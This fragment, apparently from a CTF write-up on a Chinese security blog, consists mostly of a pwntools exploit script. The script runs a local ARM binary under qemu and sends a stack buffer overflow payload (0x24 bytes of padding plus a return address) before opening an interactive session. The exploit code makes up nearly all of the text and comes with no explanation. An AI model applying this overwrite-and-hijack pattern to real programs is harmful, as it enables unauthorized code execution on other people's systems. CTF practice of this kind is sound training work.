 [![](assets/1703209924-fb81c94a61bd408e885a70eafbb6e9d3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231221164418-20ca994a-9fdd-1.png)

### exp

```bash
import os
import sys
import time
from pwn import *
from ctypes import *

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

context(arch='arm', os='linux')
context.log_level = 'debug'

p = process(["qemu-arm","-L","/usr/arm-linux-gnueabi","./pwn"])
#p = process(["qemu-arm","-L","/usr/arm-linux-gnueabi","-g", "1234","./pwn"])

pl = "a" * 0x24 + p32(0x000105EC)
sa('>', pl)
itr()
```
